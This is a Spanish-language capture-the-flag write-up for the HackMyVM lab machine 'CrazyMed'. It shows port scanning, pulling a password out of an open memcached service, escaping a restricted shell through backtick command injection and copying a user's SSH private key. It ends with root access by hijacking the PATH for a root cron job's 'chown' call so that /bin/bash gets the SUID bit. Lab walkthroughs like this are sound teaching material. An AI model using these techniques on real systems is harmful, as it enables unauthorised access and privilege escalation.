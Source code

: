 ```yaml
---
layout: post
title: CrazyMed
date: 2022-11-28
categories: ["HMV"]
thumbnail: "assets/images/CrazyMed.png"
---
```


# CrazyMed [ Hack My VM ]

## Reconocimiento

**Descubrimiento de puertos y reconocimiento básico**
- `nmap -sS --min-rate 5000 192.168.1.107 -oG allPorts`
- `nmap -sCV -p80,4444,11211 192.168.1.107 -oN targeted`

No vemos nada interesante, sigamos investigando.

## Shell

Si nos conectamos con `NC` por el puerto `4444` veremos un panel que nos da la bienvenida, pero nos pide una contraseña que no tenemos, así que por el momento lo dejamos.

Vemos un puerto algo extraño abierto, `11211`, el cual pertenece a `MemCached`, un almacén de datos de la memoria. Vamos a ver si nos podemos conectar y obtener datos. Para ello utilizaré primero una herramienta llamada `memcdump` para ver los `items` disponibles:

- `apt install libmemcached-tools`
- `memcdump --server=192.168.1.107`

```
domain
server
log
conf_location
```
Bien! Vemos que hemos sido capaces de enumerar `items`, ahora podemos obtener su contenido con `memccat`, para ello haremos lo siguiente:

- `memccat --servers=192.168.1.107 log`

```
password: cr4zyM3d
```

Bien! Hemos sido capaces de obtener una contraseña! Ahora nos podemos conectar por el puerto `4444` con `NC` y con la contraseña encontrada para obtener acceso. Una vez ahí veremos que sólo podremos ejecutar cuatro comandos: `id`, `who`, `echo` y `clear`.

Tras varios intentos para saltarme la verificación del input y poder ejecutar más comandos llegué al acento grave (``` `` ```), gracias a esto podemos ejecutar más comandos de los permitidos.

- ```System command: echo `python3 --version` ```

```
Python 3.9.
```
Fantástico! Tras mirar el directorio con ls -la vi una carpeta llamada .ssh, por lo
que me metí dentro y había un archivo llamado id_rsa, por lo que con cat lo miré y
me lo copié a mi máquina para obtener una Shell siempre que quiera sin proporcionar
contraseña.

Bien! Ya estamos dentro de la máquina como brad!


## Subida de privilegios

Para obtener `root` en la máquina comencé por enumeración básica, la cual no sirvió de mucho, pero [`LinPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) me chivó que tenía permisos de escritura en `/usr/local/bin`, por lo que ya es algo interesante.

Me dispuse a ver los procesos en curso con `PSPY` y cada minuto se ejecutaba un proceso por el usuario `root`, el cual ejecutaba con Bash un `script` llamado `check_VM` situado en `/opt/`. Vamos a hecharle un ojo:

```
#! /bin/bash

#users flags
flags=(/root/root.txt /home/brad/user.txt)
for x in "${flags[@]}"
do
if [[ ! -f $x ]] ; then
echo "$x doesn't exist"
mcookie > $x
chmod 700 $x
fi
done

chown -R www-data:www-data /var/www/html

#bash_history => /dev/null
home=$(cat /etc/passwd |grep bash |awk -F: '{print $6}')

for x in $home
do
ln -sf /dev/null $x/.bash_history ; eccho "All's fine !"
done


find /var/log -name "*.log*" -exec rm -f {} +
```
Vemos que el binario chown se ejecuta de forma relativa y no absoluta, por lo que podemos hacer `Path Hijacking`. Para poder explotarlo nos dirigiremos a `/usr/local/bin/` y crearemos un archivo llamado `chown` con la siguiente instrucción:

- `echo "chmod u+s /bin/bash" > chown`

Una vez creado el archivo le damos permisos de ejecución con: `chmod +x chown` y esperamos unos segundos a que se vuelva a ejecutar la tarea. Una vez esperado hacemos `bash -p`.

Enhorabuena! Ya estamos como `root` en la máquina víctima de forma sencilla!